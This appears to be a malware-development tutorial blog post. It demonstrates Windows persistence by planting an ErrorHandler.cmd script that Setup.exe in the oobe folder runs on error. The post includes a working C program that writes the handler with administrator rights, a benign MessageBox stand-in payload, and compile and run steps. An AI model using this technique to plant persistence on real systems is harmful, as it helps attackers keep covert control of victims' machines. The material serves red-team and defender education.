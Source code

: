 \newpage
\subsection{88. malware development: persistence - part 22. Windows Setup. Simple C++ example.}

﷽

![pers](./images/104/2023-07-17_00-13.png){width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows Setup script.     

### setup script

`C:\WINDOWS\system32\oobe\Setup.exe` is an executable file on the Windows operating system. The `oobe` directory stands for *"Out Of Box Experience,"* which is part of the process users go through when they are setting up Windows for the first time, such as creating a user account, setting preferences, choosing default settings, etc.     

![pers](./images/104/2023-07-16_22-58.png){width="80%"}    

Turns out, if you place your payload in `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` will load it whenever an error occurs.     

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox "malware" application (`hack.c`):  

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create file `ErrorHandler.cmd` for persistence:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

As you can see, the logic is pretty simple.    

### demo

Let's go to see everything in action. First of all, compile our "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-16_23-47.png){width="80%"}    

Then, move our `ErrorHandler.cmd` to `C:\Windows\Setup\Scripts\`:     

![pers](./images/104/2023-07-17_00-10.png){width="80%"}    

Ok, the next step, need to run `Setup.exe` with error. The simplest method is to execute `Setup.exe` without any arguments:     

```powershell
.\Setup.exe
```

![pers](./images/104/2023-07-17_00-13_1.png){width="80%"}    

If we open `Process Hacker` and see properties of `hack.exe`:     

![pers](./images/104/2023-07-17_01-52.png){width="80%"}    

we can notice that its parent process is `cmd.exe (7264)`,       

![pers](./images/104/2023-07-17_01-53.png){width="80%"}    

In turn, its parent is the `Setup.exe (4876)` process:     

![pers](./images/104/2023-07-17_01-53_1.png){width="80%"}    

As you can see, our persistence logic works perfectly! =^..^=         

### practical example 2. persistence script

For the sake of completeness of the experiment, I created a file `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", 
  GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo 
  off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\
  hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", 
    GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Note that, this program needs to be run with administrator rights as it's trying to create a directory and a file under `C:\WINDOWS`, which requires administrative privileges.     

![pers](./images/104/2023-07-17_02-12.png){width="80%"}    

### demo 2

Let's go to see everything in action. Compile our persistence script:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-17_02-07.png){width="80%"}    

Then, just run it with administrative privileges on the victim's machine:     

```powershell
.\pers.exe
```

![pers](./images/104/2023-07-17_02-13.png){width="80%"}    

In my case, before run it I deleted this folder:    

![pers](./images/104/2023-07-17_02-10.png){width="80%"}    

Run, `Setup.exe` again:    

![pers](./images/104/2023-07-17_02-15.png){width="80%"}    

![pers](./images/104/2023-07-17_02-15_1.png){width="80%"}    

Perfect! =^..^=    

### conclusion

This is a common filename for an installer package. In this case, it's part of Windows's setup and initialization process. It's used during the installation of the operating system, as well as when adding or modifying features and components.     

As you can see, however, please note that although it is a legitimate part of the Windows operating system, malicious programs can sometimes name themselves `Setup.exe` to avoid detection.      

There are also other files to inside the `c:\WINDOWS\system32\oobe\` folder:      

![pers](./images/104/2023-07-16_22-59.png){width="80%"}    

I have not checked them.     

This trick has been previously researched by [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/):

![pers](./images/104/2023-07-17_02-26.png){width="80%"}    

, I just show the dirty PoC code in C: `pers.c`.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     
